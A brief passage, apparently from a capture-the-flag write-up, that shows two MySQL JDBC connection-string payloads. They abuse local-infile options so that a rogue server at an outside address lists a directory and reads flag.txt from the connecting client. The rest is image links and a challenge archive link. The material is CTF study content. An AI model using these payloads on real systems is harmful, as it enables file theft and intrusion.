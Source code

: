 [![](assets/1710900819-b7c24cd79dc6fc5cc313e09800bcf8c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162754-6f4846b8-d6dc-1.png)

```plain
mysql://1.1.1.1:3306/test?user=fileread_file:///.&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=65536&allowUrlInLocalInfile=true#

mysql://1.1.1.1:3306/test?user=fileread_file:///flag.txt&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=65536&allowUrlInLocalInfile=true#
```

[![](assets/1710900819-f853703078ab72c8f4f1c4f8bfc998dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162800-72bea9fe-d6dc-1.png)

![](assets/1710900819-c1a690c3008373b105f447e452f0cfec.gif)关卡 4.zip (24.115 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240229162916-a07baeb4-d6dc-1.zip)
